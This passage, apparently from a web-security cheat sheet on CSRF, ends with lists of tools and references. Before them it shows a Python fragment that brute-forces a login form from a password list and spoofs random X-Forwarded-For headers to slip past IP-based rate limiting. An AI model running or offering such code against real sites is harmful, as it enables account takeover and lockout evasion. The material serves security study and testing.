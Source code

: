 ```python
    headers = {
        "X-Forwarded-For": f"{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}"
    }
    r = requests.post(URL, data=data, cookies=cookies, headers=headers, proxies=PROXY)
    if "Username or password incorrect" in r.text:
        return False
    else:
        print(f"FOUND {user} : {password}")
        return True

with open(PASS_LIST, "r") as f:
    for line in f:
        login(USER, line.strip())
```

## Tools 

- [https://github.com/0xInfection/XSRFProbe](https://github.com/0xInfection/XSRFProbe)
- [https://github.com/merttasci/csrf-poc-generator](https://github.com/merttasci/csrf-poc-generator)
- [Burp Suite Professional – Generate CSRF PoCs](https://portswigger.net/burp)

## References

- [https://portswigger.net/web-security/csrf](https://portswigger.net/web-security/csrf)
- [https://portswigger.net/web-security/csrf/bypassing-token-validation](https://portswigger.net/web-security/csrf/bypassing-token-validation)
- [https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses)
- [https://www.hahwul.com/2019/10/bypass-referer-check-logic-for-csrf.html](https://www.hahwul.com/2019/10/bypass-referer-check-logic-for-csrf.html)
- [https://blog.sicuranext.com/vtenext-25-02-a-three-way-path-to-rce/](https://blog.sicuranext.com/vtenext-25-02-a-three-way-path-to-rce/)
- [Ultimate guide to CSRF vulnerabilities (YesWeHack)](https://www.yeswehack.com/learn-bug-bounty/ultimate-guide-csrf-vulnerabilities)
- [OWASP: Cross-Site Request Forgery (CSRF)](https://owasp.org/www-community/attacks/csrf)
- [Wikipedia: Cross-site request forgery](https://en.wikipedia.org/wiki/Cross-site_request_forgery)
- [PortSwigger Web Security Academy: CSRF labs](https://portswigger.net/web-security/csrf)
- [Hackernoon: Blind CSRF](https://hackernoon.com/blind-attacks-understanding-csrf-cross-site-request-forgery)
- [YesWeHack Dojo: Hands-on labs](https://dojo-yeswehack.com/)

